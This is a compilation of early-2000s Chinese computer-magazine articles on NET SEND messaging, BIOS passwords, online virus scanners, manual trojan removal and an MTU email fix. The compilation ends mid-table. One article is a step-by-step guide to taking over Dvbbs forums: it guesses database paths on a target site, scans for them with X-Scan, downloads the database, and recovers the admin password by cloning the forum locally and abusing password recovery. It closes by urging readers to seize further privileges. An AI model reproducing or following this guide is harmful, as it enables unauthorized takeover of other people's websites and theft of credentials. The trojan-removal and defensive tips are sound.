手机短信已经成为当今的流行时尚，但怎样在计算机之间体验短信的方便与快捷呢？其实我们利用 Windows 2000 提供的信使服务就可以自制一个短信发送程序，令笔者最为得意的是它几乎可以穿越各种网络防火墙，不受限制。

信使服务是指“计算机管理”中的“发送控制台消息”。“计算机管理”将多个 Windows 2000 管理工具合并到了一个控制台树中，使用者可以轻松地访问特定计算机的管理属性和工具，实现了用一个统一的桌面工具来管理本地或远程计算机。

在“我的电脑”上单击右键，选择“管理”，即显示“计算机管理”主界面。依次选择“操作”、“所有任务”、“发送控制台消息...”，就可打开“发送控制台消息”窗口。

你看到的界面很简洁，操作也很简单。在上面的编辑框中输入要发送的信息，在下面的编辑框中添加／删除收件人（初始状态显示本机的计算机名），然后点击“发送”即可。但在实际使用中，我感觉操作步骤实在有些烦琐，于是，略加改造了一下。具体实现过程如下：

- 1. 运行 C++Builder 5.0，然后通过菜单 File|NewApplication 创建一个新的工程。

- 2. 再在窗体中添加一个 Edit 组件、一个 Memo 组件、多个 Label 和 Button 组件。编辑框用于输入收件人的计算机名或 IP 地址；Memo 用于输入要发送的信息，消息可以是多行文本；多个按钮用于触发不同的操作。

- 3. 核心程序是“发送”按钮的 OnClick 事件的处理过程：

```
cpp
void __fastcall TForm1::BtnSendClick(TObject* Sender)
{
    AnsiString str;
    str="NET SEND";
    str=str+" ";
    str=str+Edit->Text;   // 第6行
    str=str+" ";
    str=str+Memo->Text;
    WinExec(str.c_str(),SW_HIDE);
}

```

以上只是完成了发送短信的基本功能，还可以进行功能扩展。比如说将程序的第 6 行改为“str=str+" *|"”或是“str=str+" /domain[:domainname]|"”，就可以对工作组或域内的所有计算机以广播的方式发送消息；如果想要向所有参与服务器会话的用户发送消息，则语句为“str=str+" /users|"”。

说明：首先，要想接收消息必须运行信使服务。换句话说，就是要在 Windows 2000 上运行，Windows 98 是不支持信使服务的。其次，本程序没有接受消息的功能。因为 Windows 2000 会自动启动信使服务，接收消息，弹出对话框显示信息。

（注：本文的程序指令在 Windows 2000 & C++Builder5.0 环境下可正常使用）


# 各类不同电脑密码的处理方法

文／吴具植

## 一、关于台式机BIOS的“万能钥匙”

相对来说，BIOS的密码最简单，处理的方法也最多，如果忘了BIOS的开机密码，一般都是打开机放电，又费事又费心。笔者的方法是做个恢复BIOS设置的“万能钥匙”，步骤如下：

- 1. 使用主板自带的BIOS刷新程序，例如Award的Aflash.exe等。在DOS下直接执行Aflash.exe，出现BIOS刷新窗口，直接按一次回车，然后在“File name to save”文本框中输入备份的文件名，如“C:\Back.bin”。回车以后即可得到当前主板的BIOS备份。
- 2. 将备份的BIOS文件复制一份到一个临时目录中，再下载一个专门修改BIOS的工具软件“Modbin.exe”（在http://www.ruian.com/hotitle/bios/和http://dzyls.v365.net/都可以下载），也放到临时目录中去。
- 3. 在DOS下运行命令：ModbinBack.bin，在出现的界面中选择“Change Bios Option”中的“BiosOptions”选项。
- 4. 在弹出的“Change Bios Options”菜单中选择“Security Default Password”，然后，就在出现的“Edit”输入框中输入万能密码，就是我们的“万能钥匙”了。修改完毕后，按F2存盘，退出。
- 5. 假设上面我们使用的刷新程序是Award公司的Aflash.exe，则在DOS下输入命令：AflashBack.bin。

看看BIOS是不是已经恢复成原来的了？不过，需要注意的是：不管怎样都一定要将原来的BIOS做好备份。

需要注意的是：使用刷新BIOS有很大的危险性，最好在有经验的高手指导下进行操作。

## 二、关于笔记本的密码问题

笔记本电脑的BIOS密码不像台式机那么容易破解！大多数台式机BIOS的密码只要拔掉主板电池就会烟消云散，但是在笔记本电脑上面，这招是不管用的。

在笔记本电脑中，密码有专门的密码芯片，或者写在FlashROM中，如果你真的忘记了密码，极有可能让“机器报废”的事件发生。而且，各大厂商早就明言不会为忘记密码的情况进行保修，如果你要真的坚持修的话，那就准备自己掏钱更换新主板了。

笔记本电脑的BIOS密码大致分为开机密码（PowerOn Password），超级用户密码（SuperVisorPassword）和硬盘密码（HardDisk Password），而且有些机种还有特殊的设置密码。

对于开机密码，绝大多数都可以通过拔掉BIOS电池的方式去掉，但前提是你没有设置超级用户密码！否则即使去掉了开机密码，超级用户密码还是会出现；不输入正确密码是无法进入BIOS的。

有一个许多人容易忽视的地方，就是开机密码和超级用户密码是不能设置为一样的，否则在你取消了超级用户密码之后，开机密码会跳出来，而且你输入原来的密码也无法通过！Compaq的用户更是要特别注意这一点。

硬盘密码一向很少有人关注。它的作用是防止在笔记本电脑被盗后硬盘里面的资料被盗用。加了硬盘密码的硬盘，超级用户的密码同时生效，在本机上面没有输出超级密码不能读取硬盘；即使拆硬盘到其他的机器上面，硬盘密码仍然存在，硬盘仍然不可读取。硬盘密码看起来是一个很酷很保险的功能，但是请不要忘记，一旦你的主板被损坏或者任何原因导致你的机器不能启动，那你硬盘里面的东西也随着主板完蛋。只要硬盘认出自己不是在设置密码的主板上，你的资料就无法读取。所以我并不建议大家用这样的硬件级方法加密硬盘，采用软件加密文件夹即可。

有些人在输入密码并且确认后发现自己设置的密码好像不对了，无论怎么输入明明是正确设置的密码都无法打开。这些情况80％是因为在输入和确认密码的时候打开了数字小键盘或者大写符号。笔记本电脑因为没有单独的数字小键盘，所以设计了一个热键(一般是Fn+NumLock)来将部分字母键转换为数字小键盘使用，如果你输入密码的时候无意打开了小键盘，那么你输入的字母中其实带有数字，等你强制启动之后，数字小键盘自动取消，你再按照自以为正确的密码输入，当然是打不开的。

还有，就是有些机型如IBM的最大密码长度不是8位，而是7位，这样在你输入8位(允许输入8位)的时候就会出错，所以各位最好牢记自己的密码，一旦丢失真的是很麻烦。

# 在线查毒网站之多少

文／钟钟

目前在互联网上出现了一些在线查(杀)毒软件。这些软件方便快捷，无须手动安装，只要连接到相应的网页上，就可以轻松地对自己的电脑进行一次病毒大清查。本文介绍几个笔者用过的网站，相信还有更多的网上资源在等待我们去发现。

- **趋势科技在线扫毒**  
  http://www.trendmicro.com.cn/housecall

  “趋势科技在线扫毒”界面清晰明了，对于稍有使用杀毒软件查(杀)病毒和上网经验的朋友来说，很容易操作。如果你不会用也不要紧，这里提供一个教程(在线查毒软件使用上大同小异，这个教程对后面几个也是有用的)：

  http://www.pconline.com.cn/pcedu/db/sources/10203/42431_1.html。

- **毒霸在线查毒**  
  http://www.duba.net/antiscan

  “毒霸在线查毒”的功能相对较多。同时，在它的授权站点(毒霸在线查毒有多个授权站，在它的主界面上有链接)之一“网易”上，还提供在线杀毒功能。使用方法基本上与“趋势科技在线扫毒”相同，这里不多介绍。

- **瑞星在线查毒**  
  http://Online.rising.com.cn/ravonline/online.htm

  “瑞星在线查毒”使用起来相对繁琐一些，因为它需要注册。首先，用上面的网址进入主页，点“注册”(如果你注册过了则直接进入就可以了)，出现一个注册界面，按照要求填写好表单，点“下一步”，接着就会出现几个选项，根据自己的情况选定后点“完成”，这样注册过程就结束了，你会得到一个ID号，记下来，用它进入在线查毒界面。进入后，你可以看到，瑞星在线查毒有较多的选项，功能较强大，根据要求选完后，就可以进行在线查毒了。另外，瑞星也提供收费在线杀毒功能。

- **Panda ActiveScan 在线杀毒**  
  http://www.pandaguard.com/newpanda/product/as.htm

  Panda ActiveScan是一款不错的在线杀毒软件。打开页面后点“运行”，进入一个新页面，点“PandaActiveScan”那张动态图，弹出一个英文界面的窗口，点下方的“Next”按钮，会提示你输入一个邮箱地址，输入后点“Send”，出现一个界面，在“Country”处选择China，在“State/region”选择你所在地区。点“Start”，稍候片刻就可以开始在线查毒了。

**注意：** 在线查(杀)毒软件大都使用ActiveX技术，如果你的浏览器不支持或禁用了ActiveX控件，将无法正常使用这些软件。另外，笔者在这里提醒一下：在线查(杀)毒虽然方便，但其功能有限，作为日常的病毒防护，请不要过于依赖它，专业的病毒防护软件仍是必不可少的！

# 快速得到动网论坛管理员密码



文／小清

目前网上有很多动网论坛，随便在网上搜索一下就能得到一大堆。要想控制整个论坛就得有管理员密码，那么怎样才能得到动网论坛的管理员密码呢？在此为大家提供一个思路，希望能对大家有所帮助。

首先，要搞到动网论坛的数据库文件，如何拿到就得自己想办法了。举个例子，你可以先猜一下数据库文件存放在哪个目录里，如果猜对的话下载数据库的成功率就比较高了。一般说来，管理员都有个习惯，就是给数据库文件存放的目录起个好记的名字，如 data、database、bd、mdb 等。所以我们可以在浏览器中输入：

http://www.target.com/database 或 http://www.target.com/mdb 或者是 http://www.target.com/db 试试，如果显示：HTTP 错误 404—找不到文件（如图 1），说明对方没有这个目录，再换一个其它目录名试试，举个例子，假设你输入 http://www.target.com/data，如果显示：HTTP 错误 403—禁止访问（如图 2），则说明对方有这个目录，但是不允许我们浏览该目录，这样就有希望了，mdb 就是存放数据库的目录！现在我们就有了目标了。

下一步该怎么办，仁者见仁，智者见智，只要有办法找到数据库文件并下载下来就有希望得到对方的管理员密码。比方说，你可以使用漏洞扫描器 X-SCAN 扫描目标，看是否有漏洞，如果目标做了端口过滤，只开了 80 端口，我们可以这样试试：把一些常用的数据库地址如 data.mdb、db.mdb、database.asp 等添加到 X-Scan 的 CGI 数据库中，或者用一些黑客字典来生成数据库地址，然后单独作一个数据库，把它添加到 X-Scan 的 CGI 数据库中。然后只扫描 CGI 漏洞，过一段时间扫描完毕，假设显示的扫描结果为：/database/hacker.asa [漏洞描述]（如图 3），就表示我们成功地扫描到了数据库文件。现在打开下载工具把数据库下载下来即可，然后把文件扩展名改为 .mdb，到这儿已经完成了一半工作，就快接近成功了。



图 1

虽然搞到了动网论坛的数据库文件，但是打开后你会发现管理员密码用 MD5 加密了，所以无法直接看到管理员的真实密码。现在有两条路可走：一是使用工具软件进行破解，不过那样很费时间，碰到对方的管理员密码比较复杂的，等你找到管理员密码黄花菜都该凉了！二是自己想办法解决。那怎样才能快速得到动网论坛的管理员密码呢？自己安装一个动网论坛就可以了！

在自己的电脑上安装相同版本的动网论坛，在此简单说一下。

- 在Windows 98单机下工作环境：

1. Windows 98操作系统
2. PWS个人WEB管理器（Personal Web Server）
3. Microsoft Access 2000数据库软件
4. Internet Explorer 5.0以上浏览器

一、确定你的计算机支持ASP语言，并且手头已经有动网论坛。

二、动网论坛一般都是压缩文件，解压缩以后把整个文件夹放到PWS安装目录下，默认在C:\Inetpub\webpub\，你也可以放到其他磁盘或者目录下，比如H:\HOMEPAGE\CNVIC\。

三、单击“开始→程序→Microsoft Personal Web Server→个人 WEB 管理器”，在主屏中如果你的PWS是停止服务状态，请点击“启动”按钮启动你的PWS，如果你的动网论坛放置在其他磁盘目录上，请单击“高级→编辑属性→目录”，确定你的动网论坛存放的路径，默认文档设置为index.asp，单击“确定”按钮，至此动网论坛安装全部成功。

四、打开你的IE浏览器应用http://127.0.0.1访问，同时用PWS上显示的主页地址也可以访问，页面将出现动网论坛主页。

- Windows 2000工作环境：

1. Windows 2000 Server或者Windows professional
2. IIS5.0（Internet Information Services）
3. Microsoft Access 2000数据库软件
4. Internet Explorer 5.0以上浏览器

一、确定你的计算机或者虚拟主机支持ASP语言，并且手头已经有动网论坛。

二、动网论坛一般都是压缩文件，解压缩以后把整个文件夹放到IIS安装目录下。

三、单击“开始→程序→管理工具→Internet 信息管理”，用鼠标右键单击“默认 WEB 站”



图2



图3

## 点 → “属性”窗口，在WEB站点中把IP地址改为127.0.0.1，TCP端口一般为80，把“主目录”中的“连接此资源时内容应该来自于”，选择为“此计算机上的目录”，在“本地路径”中选择你的动网论坛安装的路径，在“文档”中设置默认文档为index.asp，单击“确定”动网论坛安装成功！

四、打开你的IE浏览器调用http://127.0.0.1访问。

然后用你下载下来的数据库覆盖新安装后产生的数据库，并且把数据库扩展名改为.mdb（如果本来就是就不用改了），现在你已经在自己的电脑中“克隆”了那个你想得到管理员密码的论坛。接下来注册一个用户，用户名可以和密码可以随意输入，密码要简单好记些，只要长度大于6位就可以了。最关键的是，注册时一定要记住你填写的忘记密码时的提示问题的答案，并填入自己的真实Email地址，否则无法拿到管理员的密码，切记，切记！

现在打开数据库，查找User表中ID为管理员的数据，他的密码是经过MD5加密的16位密文，复制这个密码到剪贴板中。然后找到我们刚才注册的用户ID，他的密码也是16位的加密密文，把剪贴板中的管理员的密码复制到你新注册用户的密码处，最后保存退出。

用你注册的用户名和密码登陆自己电脑中的该论坛，会提示密码错误，这说明你的密码被改成和管理员一模一样了！现在，赶快使用找回密码功能，把密码找回来不就得到管理员的密码了吗？注意，提示问题的答案一定得填对才行，这样密码就发到你的信箱里了，赶快打开信箱看看吧！由此我们就拿到了动网论坛管理员的密码！

有的朋友可能会认为，就算回答正确了提示问题也不可能显示管理员的密码，因为根据目前网上的动网论坛来看，大都是这样的：忘记密码→回答问题→修改密码，然后向你的信箱里面重新发一封信，当你点这封信的链接的时候新密码被使用，这样就无法得到管理员密码了。其实，对于某些版本的动网论坛来说（主要指0109以下版本的动网），在默认配置下，为了安全起见只有版主以上的会员才无法通过E-Mail方式取回密码，而普通用户是可以通过E-Mail取回密码的。之所以只能在线修改密码，是因为论坛管理员把没有开启该功能。如果开启了就有该功能，就可以通过E-Mail取回密码。当然，需要安装有jmail、aspmail等组件（jmail的功能是使用jmail组件通过在线表单方式发送信件到指定信箱）。由于我们是在本地电脑中安装动网论坛，所以我们可以拥有这个权限，即可以通过E-Mail取回密码，只要安装jmail等组件就可以了，然后就可以使用取回密码功能得到管理员密码。注意，目前网上流行的的动网6.0和动网5.0 0519final版、0320版等版本的动网论坛不支持取回密码功能，所以不能用这个办法，建议在您的电脑上安装低版本动网论坛。

以后怎么做就不用我说了吧，文章中提到的动网论坛可以到网上下载，而X-SCAN可以到http://www.521hacker.com/下载。

最后，说说防范方法，建议管理员能够将论坛的数据库文件改成一个没有规律的复杂名字，并将扩展名由mdb改为asa，如3sdal9eklz9c0ad.asa，有点象md5加密过，对吧？并将该文件放到深层目录中，这样在一定程度上可以减少被人下载的危险。另外，还要使用Access软件来为数据库文件编码及加密。首先选取“工具→安全→加密/解密数据库”，选取数据库文件然后确定，接着会出现“数据库加密后另存为”的窗口，确定后文件就会被编码。以上的操作并不是对数据库设置密码，而只是对数据库文件加以编码，目的是为了防止他人使用别的工具来查看数据库文件的内容。接下来为数据库加密。首先打开经过编码的库文件，在打开时，选择“独占”方式。然后选取功能表的“工具→安全→设置数据库密码”，接着输入密码即可。这样即使他人得到了这个文件，没有密码也是无法看到内容的。这样就算黑客知道Access数据库的名字也无法轻易下载，这种方法通常在租用别人服务器时使用。最后，建议您要在IIS中把数据库所在的目录设为不可读，这样就可以防止文件被人下载了！

本文只是一个思路，我想以各位的聪明才智一定可以想到许多办法拿到管理员密码，进而取得更大的权限，在此只是给大家提供一个思路供大家参考，谢谢各位支持！

## 三款户外木马的手工清除方法

文／王玲娟

户外木马特指广外程序员网络（前广外女生网络小组）编制的木马，主要有广外男生、广外女生和广外幽灵这三款。由于这三款木马都比较隐藏，在技术上也有其先进的地方，因此导致对它们的查杀非常的不容易，中了这三款木马的用户也因此变多。所以在此说说它们的手工清除方法。

反弹端口型木马软件相反，反弹端口型软件的服务端（被控制端）主动连接客户端（控制端），为了隐藏起见，客户端的监听端口一般开在80（提供HTTP服务的端口），这样，即使用户使用端口扫描软件检查自己的端口，发现的也是类似TCP UserIP:1026 ControllerIP:80 ESTABLISHED的情况，稍微疏忽一点你就会以为是自己在浏览网页（防火墙也会这么认为的）。

### 一、广外男生的清除方法

广外男生是最近刚刚出现的木马，目前许多杀毒软件都无法正确查杀它，比方说最新的瑞星15.29就无法识别出该木马。广外男生除了具有一般普通木马应该具有的特点以外，还具备以下独有的特色技术：

- 1. 客户端高度模仿Windows资源管理器，这使得它对远程服务端操作起来非常方便，就象在本地电脑上操作一样简便。
- 2. 强大的文件操作功能：删除、上传、下载远程主机上的文件可以随意进行。
- 3. 运用了反弹端口原理与线程插入技术：广外男生利用DLL插入线程技术来防止进程被终止，服务端运行时没有进程！所有网络操作均插入到其他应用程序的进程中完成，这使得即便是具有“应用程序访问权限”功能的防火墙也形同虚设！而反弹端口技术的使用，使得该木马的主动性大大加强。我们知道，传统型的木马不能访问装有防火墙和在局域网内部的服务主机，但反弹端口木马就不一样了，木马开发者分析了防火墙的特性后发现，防火墙对“广连入”的连接往往会进行非常严格的过滤，但是对于“连出”的连接却疏于防范。于是，与一般的木马软件相反，反弹端口型软件的

如果不小心运行广外男生服务端程序，会在C:\winnt\system32文件夹下生成gwboy.exe和gwboydll.dll两个文件，文件大小都为116KB。其中，gwboy.exe开机则自动运行，gwboydll.dll则是实现线程插入技术的主文件。当木马被激活后，该dll会注入到explorer.exe进程，这一点可以通过进程管理软件，如Windows优化大师自带的进程管理软件或PrcView等查看到。你无法终止该进程，因为终止explorer.exe进程后，gwboydll.dll马上插入另一正常系统进程中，这也正是广外男生的可怕之处！

#### 清除步骤：

- 1. 清理注册表。
打开注册表编辑器，展开到HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run下，删除字符串指gwboy.exe。然后到HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID下，删除ID为{5EAE4AC0-146E-11D2-A96E-000000000009}的键及其下所有子键和键值。接下来，点击“编辑”菜单中的“查找”，在注册表编辑器中搜索gwboydll.dll，找到所有和它有关的注册表项，全部删除。注意，这个dll文件的名字是可以随意变化的，这里只是以默认状况下为例来说的，所以才在注册表中查找`gwboydll.dll`文件。对于您来说，您可以在`system32`系统文件夹中查找文件大小为116kB大小的dll文件，它就是广外男生的dll文件，找到后复制其文件名，然后再到注册表中搜索，找到后删除相应注册表项就可以了。因为广外男生运行之后随机写入注册表使得dll能够自动运行，并且在注册表中的位置也是变化的，所以才这么麻烦，这也正是木马广外男生厉害之处！

- 2. 删除木马文件

删除`system32`目录下的`gwboy.exe`。然后进入纯DOS下，输入`del winnt\system32\gwboydll.dll`命令，删除`system32`目录中的`gwboydll.dll`文件。

好了，到此这个广外男生就被我们给清除出去了。

### 二、木马广外女生清除方法

广外女生除了具有一般木马所拥有的功能以外，它还会自动检查中木马的电脑进程中是否含有“金山毒霸”、“防火墙”、“iparmor”、“tcmonitor”、“实时监控”、“lockdown”、“kill”、“天网”等字样，如果发现就将该进程终止，也就是说广外女生会使防火墙完全失去作用！这样你的网络大门就完全敞开了，给你下木马的人就可以为所欲为！

如果不小心运行了该木马，会在系统的`System`目录下生成一个名为`diagcfg.exe`的文件，这是木马自身的拷贝。该文件关联EXE文件的打开方式，如果你删掉了该文件，将会导致系统所有EXE文件无法打开。

#### 木马清除步骤：

首先，重新启动电脑到纯DOS下，删除`system`目录下的`diagcfg.exe`文件。然后清除注册表中木马建立的键值，此时需用到注册表编辑器`regedit.exe`，由于`diagcfg.exe`文件已经被删除了，因此在Windows环境下任何exe文件都无法运行，`regedit.exe`当然也无法运行了，那该怎么办呢？我们可以将`Regedit.exe`改名为`Regedit.com`嘛，照样可以运行！对了，`regedit.exe`在Windows安装目录下。

现在，回到Windows模式下，运行`Regedit.com`，打开注册表编辑器，找到`HKEY_CLASSES_ROOT\exefile\shell\open\command`，将其默认键值改成`"%1" %*`，再找到`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices`，删除其中名为“Diagnostic Configuration”的键值，关掉注册表编辑器，回到Windows目录，将`Regedit.com`改名为`Regedit.exe`即可。至此，就清除了木马广外女生。

### 三、木马广外幽灵清除方法

广外幽灵是一款专门窃取密码的新木马，由于采用了先进的技术使得发现它非常的困难！如果你打算通过查找进程的方式来发现它，建议你打消这个念头，因为该软件使用了先进的“线程插入”技术，可以越过防火墙，系统中不会新增任何任务进程。

如果不小心运行了该木马，会在系统的`system`下生成两个木马文件：`scanregw.exe`和`gst00.tmp`，文件大小分别为36KB和20KB，广外幽灵用木马`scanregw.exe`代替了系统中正常的`scanregw.exe`，由此达到加载运行的目的。正常的`scanregw.exe`在Windows目录下，用来检测和备份注册表。

#### 木马清除步骤：

首先，删除系统的`system`文件夹下的木马文件`scanregw.exe`和`gst00.tmp`。接着，打开注册表编辑器，找到`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

把`"ScanRegistry"="C:\WINDOWS\SYSTEM\SCANREGW.EXE /autorun"`修改为`"ScanRegistry"="C:\WINDOWS\SCANREGW.EXE /autorun"`，或干脆删除“ScanRegistry”也可以。到此，就清除了木马广外幽灵，可以放心了。

## 在LAN中不能发送邮件的处理

文／刘霞

在局域网中，电子邮件被人们经常使用，但由于局域网自身的系统平台、组网方式、拓扑结构等因素的影响，可导致数据传输故障，使电子邮件及其附件无法正常发送。笔者公司的局域网中就有些工作站使用 Windows XP 系统，但一直不能发邮件，严重影响了局域网的有效使用，如果不能解决，那么每台装有 Windows XP 系统的机器都只能重装 Windows 98 或其他系统，这将造成大量重复工作及资源浪费。经过我们的努力，终于找到了一个解决办法。

下面以 Windows XP 系统为例，说明如何修改注册表使网络畅通，邮件得以正常发送。我们的局域网接入 Internet 采用的是连接卫星的下行非对称传输方式。以 Winroute 为代理软件，局域网中的多台计算机共享 DirectPC 连接，由于 DirectPC 期望的数据包与客户端收发的数据包大小不匹配，造成客户端接收数据阻塞及不能发送邮件的问题。为了发邮件，Windows XP 系统的注册表需要作如下的修改：`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Tcpip\Parameters\Interfaces\{...}\MTU`，Interfaces 下的 `{...}` 需要用户自己确定哪一个是对应的网卡分支。一般情况下，其中包含本机 IP 地址或网关等内容。Windows XP 注册表中每个分支内容较多，需仔细辨别，要同服务器的网络设置相对应。找到该分支后新建 “DWORD” 类型的键 “MTU”，取值为十进制数 “1466”。修改完成后重启机器即可正常发送邮件，带附件亦无问题。

另外还需注意，主服务器注册表亦应作相应修改。若其他客户端机使用 Windows 其他系统，也应修改其注册表使其邮件能正常发送。具体参考如下：

| 系统 | 注册表路径 | 键值类型 | 值 |
|------|------------|----------|----|
